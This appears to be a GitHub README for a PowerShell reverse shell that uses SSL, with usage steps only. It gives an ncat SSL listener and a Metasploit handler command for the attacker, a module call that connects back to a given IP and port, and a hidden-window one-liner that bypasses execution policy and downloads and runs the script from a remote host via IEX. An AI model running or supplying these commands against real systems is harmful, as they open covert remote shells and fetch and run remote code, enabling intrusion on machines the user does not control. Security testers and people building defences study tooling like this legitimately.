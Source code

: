 # PowerShell-SSL-ReverseShell
This is a reverse shell written in PowerShell that uses SSL communications between the attacker's machine and the victim's machine. Most of the code from [samratashok/nishang Invoke-PowerShellTcp.ps1](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1) and [PowerShell-reverse-shell](https://github.com/martinsohn/PowerShell-reverse-shell)


## Usage

### Attacker Machine

- #### Ncat
```bash 

❯ rlwrap ncat --ssl -lnvp 4646

```

- #### Metasploit
```bash 

❯ msfconsole -x "use multi/handler;set payload windows/powershell_reverse_tcp_ssl; set lhost 192.168.254.226; set lport 4646; set ExitOnSession false; exploit -j"

```


### Victim Machine
```powershell 

PS > Import-Module .\GetShellSSL

PS > GetShell -Reverse -IPAddress 192.168.254.226 -Port 4646

```

OR

```powershell

PS > powershell.exe -windowstyle hidden -ExecutionPolicy Unrestricted -nop -Command "IEX (New-Object Net.WebClient).DownloadString('https://<IP>/GetShellSSL.ps1')"

```
